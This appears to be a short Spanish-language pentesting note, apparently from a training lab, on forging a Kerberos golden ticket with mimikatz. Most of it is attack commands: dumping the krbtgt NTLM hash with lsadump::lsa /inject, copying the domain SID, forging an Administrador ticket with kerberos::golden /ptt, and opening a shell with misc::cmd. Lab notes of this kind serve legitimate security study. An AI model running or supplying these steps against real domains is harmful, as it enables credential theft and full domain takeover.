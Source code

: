 


## mimikatz

lsadump::lsa /inject /name:krbtgt


abrimos notepad y copiamos el SID del dominio y el hash NTLM


![[Pasted image 20250604091131.png]]![[Pasted image 20250604091138.png]]

escribimos en mimikatz

```bash
kerberos::golden /User:Administrador /domain:marvel.local /sid:S-1-5-21-301.... /krbtgt <NTLMHASH> /id:500 /ptt
```

```
misc::cmd
```


